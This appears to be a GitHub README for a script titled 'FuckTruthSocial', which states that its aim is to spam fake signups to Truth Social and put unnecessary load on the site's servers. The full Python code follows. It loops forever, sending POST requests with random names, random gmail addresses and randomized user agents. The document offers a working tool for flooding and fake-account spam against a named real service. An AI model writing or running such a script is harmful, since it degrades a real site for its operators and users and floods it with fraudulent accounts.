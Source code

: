 # FuckTruthSocial
It really seems like Trump is trying to get his own social media started. Not a huge fan tbh. (When TruthSocial actually releases, I'll update the script to spam fake sighnups to the site to generate fake traffic and put un-necessary load on their servers.)

```py
py postspammer.py
```
Very simple, not much to explain, but I'll put the code here anyway:
```py
import requests
import json
import string
import random
from user_agent import generate_user_agent #pip install user_agent

truthsocial = "https://www.truthsocial.com/"
count = 0

def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))
while True:
    headers = {
        'User-Agent': f'{generate_user_agent()}',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Referer': 'https://www.truthsocial.com/',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': 'https://www.truthsocial.com',
        'DNT': '1',
        'Connection': 'keep-alive',
        'Upgrade-Insecure-Requests': '1',
        'Sec-Fetch-Dest': 'document',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-Site': 'same-origin',
        'Sec-Fetch-User': '?1',
        'Sec-GPC': '1',
        'TE': 'trailers',
    }
    d = {'first_name': id_generator(), 'last_name': id_generator(), 'email' : f'{id_generator()}@gmail.com', 'phone': '', 'offers': 'on'}
    w = requests.post(truthsocial, data=d, headers=headers)
    count += 1
    print(count)
```
